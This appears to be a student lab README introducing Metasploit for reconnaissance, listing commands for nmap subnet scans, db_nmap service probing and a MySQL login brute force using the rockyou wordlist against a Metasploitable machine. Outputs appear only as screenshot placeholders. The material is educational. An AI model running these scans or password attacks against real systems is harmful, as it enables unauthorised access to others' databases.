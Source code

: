 # EX 5 Metasploit-for-reconnaissance
# Metasploit
Metasploit for reconnaissance in pentesting

# AIM:

To get introduced to Metasploit Framework and to  perform reconnaissance  in pentesting .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```
ifconfig
```

## OUTPUT:
![alt text](ifcon.png)

```
msfconsole
```
## OUTPUT:
![alt text](msfcon.png)

```
help
```
## OUTPUT:
![alt text](help.png)


```
nmap -sT <default IP gateway>/24 -p1-1000
```
## OUTPUT:
![alt text](<nmap -st.png>)

```
db_nmap <default IP gateway>/24
```
## OUTPUT:
![alt text](db_nmap.png)

![alt text](db_nmap1.png)

```
cd /usr/share /metasploit-framework/modules/auxiliary
```
```
 ls -l
 ```
## OUTPUT: 
 ![alt text](ls-l.png)

```
search name:Microsoft type:exploit
```
## OUTPUT: 
![alt text](search.png)

```
db_nmap -sV -sC -p 3306 <metasploitable_ip_address>
```
## OUTPUT: 
![alt text](<db_nmap ip.png>)

```
search type:auxiliary mysql
```
## OUTPUT: 
![alt text](<search mysql.png>)

```
use 11
```
## OUTPUT: 
![alt text](<use 11.png>)

```
set RHOSTS <IP>
```
## OUTPUT: 
![alt text](rhost.png)

```
use auxiliary/scanner/mysql/mysql_login
```
## OUTPUT: 
![alt text](<use mysqllogin.png>)

```
set PASS_FILE /usr/share/wordlists/rockyou.txt
```
```
set RHOSTS <metasploitable-ip-address>
```
```
set BLANK_PASSWORDS true
```
```
set verbose no
```
```
run
```
## OUTPUT: 
![alt text](<pwd rockyou.png>)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
